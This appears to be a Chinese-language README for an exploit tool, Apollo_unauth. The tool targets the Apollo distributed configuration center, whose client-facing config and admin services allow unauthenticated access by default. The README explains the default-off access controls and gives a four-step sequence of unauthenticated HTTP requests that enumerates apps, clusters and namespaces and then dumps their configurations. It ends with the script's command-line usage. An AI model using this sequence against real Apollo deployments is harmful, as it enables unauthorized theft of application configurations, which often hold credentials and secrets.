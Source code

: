 # Apollo_unauth
Apollo 配置中心未授权获取配置漏洞利用

## 0x00：背景
Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。
项目地址: https://github.com/ctripcorp/apollo

## 0x01：默认不安全
从 issues-2099 可以看出，根本不需要通过要鉴权的 apollo-dashboard ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

1.6.0 版本开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。但是默认不会开启此项功能。

1.7.1 版本开始可以为 apollo-adminservice 开启访问控制，从而只有合法的 apollo-portal 才能访问对应接口，以增强安全性。类似于增加配置：

admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
有意思的是，默认 admin-service.access.control.enabled 值为 false，也就是默认不会开启此项功能。

## 0x03：漏洞利用
由于网上没有漏洞细节，所以我下载了 Apollo 源码，分析了下几个服务的相关代码，下面给出一种利用方法。

大致流程就是利用默认可未授权访问的 apollo-configservice 和 apollo-adminservice 服务，通过调用相关接口获取所有能够获取到的配置信息。

```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

脚本用法如下：

Usage: Apollo_unauth.py -t <apollo_adminservice_url> and -c <apollo_configservice_url>
